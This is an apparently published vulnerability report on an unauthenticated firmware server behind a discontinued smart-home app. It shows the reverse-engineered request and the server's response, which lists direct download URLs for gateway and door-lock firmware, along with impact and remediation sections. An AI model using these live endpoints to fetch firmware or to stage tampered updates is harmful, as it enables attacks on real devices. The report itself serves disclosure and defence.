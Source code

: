 # Vulnerability Report - com.sampmax.homemax- Incorrect Access Control

**Product:** `com.sampmax.homemax` 

**Vendor:** [SAMPMAX](https://www.sampmax.com/)

**Version:** 2.1.2.7

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.sampmax.homemax` , developed by Shelly, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

> Although the vendor has discontinued the use of the application, the URL for obtaining firmware has not been deprecated.

## Reproduction Steps

1. The `getGatewayNewVersion` String value in the `GatewayInfoPresenter` class provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241002234349612](https://s2.loli.net/2024/10/02/wuLRQCm7qkW4gVH.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://dev.fbeecloud.com/backup/binupd.js HTTP/1.1
   Host: dev.fbeecloud.com
   Content-Type: text/plain
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Server: nginx
   Date: Wed, 02 Oct 2024 15:32:13 GMT
   Content-Type: application/javascript; charset=utf-8
   Content-Length: 1754
   Last-Modified: Tue, 12 Mar 2024 08:13:36 GMT
   Connection: keep-alive
   Vary: Accept-Encoding
   ETag: "65f00eb0-6da"
   Expires: Thu, 03 Oct 2024 03:32:13 GMT
   Cache-Control: max-age=43200
   Accept-Ranges: bytes
   
   [{"binname":"GD","binupdlog":"","verName":"1.1.1","url":"http:\/\/dev.fbeecloud.com\/backup\/devcloud12.bin"},{"binname":"LM","binupdlog":"","verName":"1.5.6","url":"http:\/\/www.fbeecloud.com\/app\/lm3s156.bin"},{"binname":"GW","binupdlog":"","verName":"5.0.8","url":"http:\/\/www.fbeecloud.com\/app\/gw508.bin"},{"binname":"Sky","binupdlog":"","verName":"s.2.7","url":"http:\/\/www.fbeecloud.com\/app\/gateway_S27.bin"},{"binname":"FGR87T5","binupdlog":"","verName":"3.0.3","url":"http:\/\/www.fbeecloud.com\/app\/FGR87T5303.bin"},{"binname":"DoorLock","binupdlog":"","verName":"1.9","url":"http:\/\/www.fbeecloud.com\/app\/DoorLock_019.ota"},{"binname":"FGA87M4","verName":"R.0.4","binupdlog":"","url":"http:\/\/www.fbeecloud.com\/app\/FGA87M4_R041.bin"},{"binname":"FEIBIT4","verName":"F.0.3","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FEIBIT4_F.0.3.bin"},{"binname":"FGL80Q0","verName":"D.4.C","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FGL80Q0-firmware-D4C-54-52-20200609-wifioff.tar"},{"binname":"FGC80M4","verName":"D.4.3","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FGC80M4-firmware-D43-42-49-20200403.tar1.gz"},{"binname":"FGC80M4-Test","verName":"D.3.6","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FGC80M4-firmware-D36-201910170.tar.gz"},{"binname":"FGC89T0","verName":"L.0.3","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FGC89T0-L.0.3.tar1.gz"},{"binname":"test_GM","verName":"1.0","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/libGM_sigmaStar.so"},{"binname":"CO","verName":"N.6.7","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FStack_GW.bin"},{"binname":"GM","verName":"1.1.0","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/GManage"}]
   ```
   
3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241002234447957](https://s2.loli.net/2024/10/02/fV7MCWFxyYqv5LU.png)


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.